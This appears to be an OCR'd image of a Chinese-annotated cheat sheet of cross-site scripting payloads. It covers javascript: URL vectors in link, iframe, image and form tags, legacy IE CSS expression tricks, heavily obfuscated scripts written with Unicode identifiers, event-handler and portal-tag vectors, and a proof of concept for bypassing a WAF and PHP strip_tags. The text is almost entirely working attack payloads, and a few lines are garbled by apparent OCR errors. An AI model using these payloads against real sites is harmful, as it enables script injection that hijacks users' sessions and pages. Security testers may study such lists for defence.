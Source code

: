 ```html
PS:在无CSP的情况下才可以
<link rel=import href="http://127.0.0.1/1.js">


javascript伪协议
<a>标签
<a href="javascript:alert(`xss`);">xss</a>

<iframe>标签
<iframe src=javascript:alert('xss');></iframe>

<img>标签
<img src=javascript:alert('xss')>//IE7以下

<form>标签
<form action="Javascript:alert(1)"><input type=submit>


其它
expression属性
<img style="xss:expression(alert('xss''))"> // IE7以下
<div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下

background属性
<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效

杂项
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode<script>alert('xss')</script>
<math><a xlink:href="//baidu.com">click

<script>([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()</script>

<script>ꆇ='',ꉄ=!ꆇ+ꆇ,ꉦ=!ꉄ+ꆇ,ꊗ=ꆇ+{},ꀻ=ꉄ[ꆇ++],ꃋ=ꉄ[ꆚ=ꆇ],ꋕ=++ꆚ+ꆇ,ꐍ=ꊗ[ꆚ+ꋕ],ꉄ[ꐍ+=ꊗ[ꆇ]+(ꉄ.ꉦ+ꊗ)[ꆇ]+ꉦ[ꋕ]+ꀻ+ꃋ+ꉄ[ꆚ]+ꐍ+ꀻ+ꊗ[ꆇ]+ꃋ][ꐍ](ꉦ[ꆇ]+ꉦ[ꆚ]+ꉄ[ꋕ]+ꃋ+ꀻ+"(ꆇ)")(1)</script>

<script>ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")()</script>

𒁰='',𒀰=!𒁰+𒁰,𒁃=!𒀰+𒁰,𒅋=𒁰+{},𒄦=𒀰[𒁰++],𒄡=𒀰[𒃺=𒁰],𒂞=++𒃺+𒁰,𒆟=𒅋[𒃺+𒂞],𒀰[𒆟+=𒅋[𒁰]+(𒀰.𒁃+𒅋)[𒁰]+𒁃[𒂞]+𒄦+𒄡+𒀰[𒃺]+𒆟+𒄦+𒅋[𒁰]+𒄡][𒆟](𒁃[𒁰]+𒁃[𒃺]+𒀰[𒂞]+𒄡+𒄦+"`𒁃𒅋𒃺𒂞`")``

Function("alert`𒁃𒅋𒃺𒂞`")``

<svg onwheel=top[11189117..toString(32)](1);>

¼script¾alert(¢XSS¢)¼/script¾

<portal id="q" src="bing.com" onload="print(q.activate())"></portal>

<script>onerror=alert;throw 1337</script>
```
```html
Classical #XSS WAF Bypass
Inline HTMLi + #PHP Strip Tags

Code:
<a href="<?=strip_tags($_GET['url']);?>">

PoC:
?url="onm<>ouseover="ale<>rt(1)
```

[a]: (javascript:prompt(1))